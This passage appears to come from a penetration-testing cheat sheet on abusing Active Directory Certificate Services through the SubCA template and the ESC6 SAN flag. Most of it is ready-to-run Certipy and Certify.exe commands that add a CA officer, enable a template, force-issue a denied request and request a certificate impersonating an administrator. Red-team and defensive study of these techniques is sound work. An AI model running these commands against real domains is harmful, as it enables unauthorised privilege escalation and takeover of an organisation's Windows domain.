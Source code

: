 When it is not possible to restart the `CertSvc` service to enable the `EDITF_ATTRIBUTESUBJECTALTNAME2 attribute`,the built-in template **SubCA** can be usefull.

It is vulnerable to the **ESC1** attack, but only **Domain Admins** and **Enterprise Admins** can enroll in it. If a standard user try to enroll in it with [Certipy](https://github.com/ly4k/Certipy), he will encounter a `CERTSRV_E_TEMPLATE_DENIED` errror and will obtain a request ID with a corresponding private key.

This ID can be used by a user with the **ManageCA** _and_ **ManageCertificates** rights to validate the failed request. Then, the user can retrieve the issued certificate by specifying the same ID.

* With **ManageCA** right it is possible to promote new officier and enable templates

```bash
# Add a new officier
certipy ca -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -add-officier 'user'

# List all the templates
certipy ca -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -list-templates

# Enable a certificate template
certipy ca -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -enable-template 'SubCA'
```

* With **ManageCertificates** AND **ManageCA** it is possible to issue certificate from failed request

```bash
# Issue a failed request (need ManageCA and ManageCertificates rights for a failed request)
certipy ca -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -issue-request 100

# Retrieve an issued certificate
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -retrieve 100
```

## CA Configuration - ESC6

If the CA flag **EDITF\_ATTRIBUTESUBJECTALTNAME2** is set, it is possible to specify a SAN in any certificate request

### Windows

```powershell
# Find info about CA
Certify.exe cas

# Find template for authent
Certify.exe /enrolleeSuppliesSubject
Certify.exe /clientauth

# Request certif with SAN
Certify.exe request /ca:'domain\ca' /template:"Certificate template" /altname:"admin"
```
